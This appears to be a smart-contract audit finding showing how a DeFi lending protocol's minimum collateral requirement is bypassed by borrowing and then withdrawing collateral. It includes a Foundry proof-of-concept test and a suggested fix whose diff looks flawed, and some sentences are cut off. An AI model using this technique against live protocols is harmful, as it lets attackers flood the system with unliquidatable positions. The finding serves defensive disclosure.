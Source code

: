 ## The minimum collateral value can be bypassed

## Summary 

`minimumCollateralValueForBorrowing` can be bypassed allowing for small position with small collateral.

## Details

A `minimumCollateralValueForBorrowing` is set at a base of 2500 usd. 
The reason for this value is to * help prevent saturation of the contract with small amounts of positions and to ensure that liquidating the position yields non-trivial rewards *. However this value can be bypassed if we the user if he withdraws the collateral after 

## POC

```sol
// SPDX-License-Identifier: BUSL 1.1
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";
import "../../price_feed/tests/ForcedPriceFeed.sol";


contract TestCollateral is Deployment
	{
	// User wallets for testing
    address public constant alice = address(0x1111);
    address public constant bob = address(0x2222);
    address public constant charlie = address(0x3333);

	bytes32 public collateralPoolID;


	constructor()
		{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();

		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.prank(address(daoVestingWallet));
		salt.transfer(DEPLOYER, 1000000 ether);


		collateralPoolID = PoolUtils._poolID( wbtc, weth );

		// Mint some USDS to the DEPLOYER
		vm.prank( address(collateralAndLiquidity) );
		usds.mintTo( DEPLOYER, 2000000 ether );
		}


	function _userHasCollateral( address user ) internal view returns (bool)
		{
		return collateralAndLiquidity.userShareForPool( user, collateralPoolID ) > 0;
		}


	function _readyUser( address user ) internal
		{
		uint256 addedWBTC = 1000 * 10 ** 8 / 4;
		uint256 addedWETH = 1000000 ether / 4;

        // Deployer holds all the test tokens
		vm.startPrank( DEPLOYER );
		wbtc.transfer( user, addedWBTC );
		weth.transfer( user, addedWETH );
		vm.stopPrank();

//		console.log( "WBTC0: ", wbtc.balanceOf( user ) );

		vm.startPrank( user );
		wbtc.approve( address(collateralAndLiquidity), type(uint256).max );
        weth.approve( address(collateralAndLiquidity), type(uint256).max );
		usds.approve( address(collateralAndLiquidity), type(uint256).max );
		salt.approve( address(collateralAndLiquidity), type(uint256).max );
		usds.approve( address(collateralAndLiquidity), type(uint256).max );
		vm.stopPrank();
		}


    function setUp() public
    	{
    	_readyUser( DEPLOYER );
		_readyUser( alice );
		_readyUser( bob );
		_readyUser( charlie );
    	}


	// This will set the collateral / borrowed ratio at the default of 200%
	function _depositCollateralAndBorrowMax( address user ) internal
		{
		vm.startPrank( user );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(user), weth.balanceOf(user), 0, block.timestamp, true );

		uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(user);
		collateralAndLiquidity.borrowUSDS( maxUSDS );
		vm.stopPrank();
		}


	// This will set the collateral / borrowed ratio at the default of 200%
	function _depositHalfCollateralAndBorrowMax( address user ) internal
		{
		vm.startPrank( user );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(user) / 2, weth.balanceOf(user) / 2, 0, block.timestamp, true );

		uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(user);
		collateralAndLiquidity.borrowUSDS( maxUSDS );
		vm.stopPrank();
		}


	// Can be used to test liquidation by reducing BTC and ETH price.
	// Original collateral ratio is 200% with a minimum collateral ratio of 110%.
	// So dropping the prices by 46% should allow positions to be liquidated and still
	// ensure that the collateral is above water and able to be liquidated successfully.
	function _crashCollateralPrice() internal
		{
		vm.startPrank( DEPLOYER );
		forcedPriceFeed.setBTCPrice( forcedPriceFeed.getPriceBTC() * 54 / 100);
		forcedPriceFeed.setETHPrice( forcedPriceFeed.getPriceETH() * 54 / 100 );
			vm.stopPrank();
		}

    function test_edgeCase() public {
        		// Bob deposits collateral so alice can be liquidated
        vm.startPrank(bob);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(bob), weth.balanceOf(bob), 0, block.timestamp, false );
		vm.stopPrank();

		vm.startPrank( alice );
		uint256 wbtcDeposit = wbtc.balanceOf(alice) / 4;
		uint256 wethDeposit = weth.balanceOf(alice) / 4;

		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtcDeposit, wethDeposit, 0, block.timestamp, true );

        // Alice borrows USDS
        // uint256 maxBorrowable = collateralAndLiquidity.maxBorrowableUSDS(alice);
        collateralAndLiquidity.borrowUSDS( 10 );
        uint256 withdrawAlice = collateralAndLiquidity.maxWithdrawableCollateral(alice);
        //withdraw max withdrawable ...
        console.log(withdrawAlice);
		vm.warp( block.timestamp + 1 days );

        collateralAndLiquidity.withdrawCollateralAndClaim(withdrawAlice, 0, 0, block.timestamp);

		uint256 aliceValue = collateralAndLiquidity.userCollateralValueInUSD( alice );
        console.log(aliceValue); 

    }

}

//COVERAGE="yes" NETWORK="sep" forge test --match-path src/stable/tests/WithdrawColl.t.sol -vvv --rpc-url

```

In this test we can see that we actually don't need to continually have 2500 usd worth of collateral, it is just needed when creating the borrow. Users can easely bypass this check. 
This added to the fact that if a position is below 20 weth and 20 wbtc (in wei), there will be no incentive to liquidate them. 
```
		uint256 rewardedWBTC = (reclaimedWBTC * rewardPercent) / 100; 
		uint256 rewardedWETH = (reclaimedWETH * rewardPercent) / 100; 

```
because 19 * 5 / 100 < 1, this will return 0. Excluding gas costs. liquidators don't have any incentive to liquidate this position.

## imapct

This way a lot of insignificant could be opened and flood the system. Of

## Recommended Mitigation Steps

Make sure that position that are actively borrowing need to have at least have `minimumCollateralValueForBorrowing`. Only when repaying the debt this collateral should be withdrawable.


```diff
	function maxWithdrawableCollateral( address wallet ) public view returns (uint256)
		   ...

		// The maximum withdrawable value in USD
		uint256 maxWithdrawableValue = userCollateralValue - requiredCollateralValueAfterWithdrawal;
          ++    if(usdsBorrowedByUsers[wallet] > 0) return (userCollateralAmount *  maxWithdrawableValue / userCollateralValue ) - 
  `minimumCollateralValueForBorrowing`;
		// Return the collateralAmount that can be withdrawn
		return userCollateralAmount * maxWithdrawableValue / userCollateralValue;
   		}
```